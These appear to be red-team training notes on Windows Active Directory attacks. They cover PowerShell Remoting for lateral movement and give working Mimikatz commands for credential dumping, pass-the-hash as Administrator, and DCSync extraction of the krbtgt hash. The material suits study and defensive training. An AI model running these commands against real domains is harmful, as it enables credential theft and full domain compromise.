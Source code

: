 - It is a recommended way to manage Windows core servers.

- This comes enabled by-default from Windows Server 2012.

- Adversary uses this utility to connect to remote computers/servers and execute commands upon achieving high privileges.

- Example : Invoke-Command, New-PSSession, Enter-PSSession

- Configuration is easy “Enable-PSRemoting -SkipNetworkProfileCheck -Verbose -Force” as administrator.

- It is used to run commands and scripts on : 
  - Windows Servers/workstations
  - Linux machines too (PowerShell is Open-Source project)

- Example commands : 

```powershell
$session = New-PSSession –Computername Windows-Server
Invoke-Command –Session $session –ScriptBlock {Whoami;hostname}
Enter-Pssession –Session $session -verbose
```

### Mimikatz PowerShell Script

- Used for dumping credentials, Kerberos tickets etc all in-memory.

- Run with Administrative privileges for performing credential dumping operations.

- Ex : (As Administrator)

```powershell
Invoke-Mimikatz -DumpCreds -Verbose
Invoke-Mimikatz –DumpCreds –ComputerName @(“comp1”,”comp2”)
```

- Most famous Pass-the-hash attack:

```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:cyberwarfare.corp/hash: /run:powershell.exe"'
```

### DCSYNC Attack

- In order to extract the domain user account/service account/machine account credentials without code execution on the Domain Controller the Adversary used DCSYNC Attack.

- Specific set of privileges are required to perform remote hash retrievable without code execution.
  - Get-ReplicationChanges
  - Get-ReplicationChangesAll
  - Get-ReplicationChnages-in-a-filtered-set

- Command : 

```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:cyberwarfare\krbtgt"'
```
